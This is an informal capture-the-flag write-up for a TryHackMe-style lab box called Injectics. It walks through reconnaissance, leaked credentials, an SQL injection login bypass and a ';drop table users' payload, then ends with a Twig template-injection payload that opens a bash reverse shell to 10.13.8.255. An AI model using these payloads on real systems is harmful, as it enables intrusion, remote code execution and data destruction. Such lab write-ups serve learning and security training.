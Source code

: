 Started with a nmap scan
```
22 OpenSSH 8.2p1
80 Apache 2.4.41
```
When looking at the source for the webpage I found a email `dev@injectics.thm` and something that says Mails are stored in `mail.log` file looking at this file there are 2 logins but they dont work on the both login pages
```
superadmin@injectics.thm : superS..........
dev@injectis.thm : devP....
```
And looking more at the site all the webpages are static but the login pages looking at the login page there is a `script,js` file that has some login stuff in it and has a basic blacklist for what looks like sql injections the admin login page does not seem to have this `script.js `file 
Starting a gobuster scan
```
/index.php
/login.php
/mail.log
/flags
/css
/js
/javascript
/logout.php
/vendor
/script.js
dashboard.php
/functions.php
/phpmyadmin
/adminLogin007.php
/conn.php
/composer.json
```
Going to the composer file says its running `twig 2.14.0` and going to phpMyAdmin we have version `4.9.5deb2`  I tested both login forums with sqlmap and it did not get anything buy did say there might  be a false positive so I opened burp and used intruder and url encoded all characters to see if they changed anything and there is some payloads in a login bypass from hacktricks and switched to ffuf and then take the payload to burp and we can login into the app and now edit all the medals we know we need to drop the users table from the note we saw so I ran this command in the gold section `;drop table users -- -` and then it says the user table is now gone and give it 1-2 minutes and then it will be restored and now we can log out of the dev account and log into the dev account on the admin side and the only difference now is we have access to the profile section and we have ssti in the first name field using this payload `{{7*7}}` after a little bit of messing with commands we found we can use sort and passthru using this command we can get a rev shell `{{ ["bash -c 'exec bash -i >& /dev/tcp/10.13.8.255/4445 0>&1'", ""] | sort ('passthru')}}` and we can see what's in the flags folder 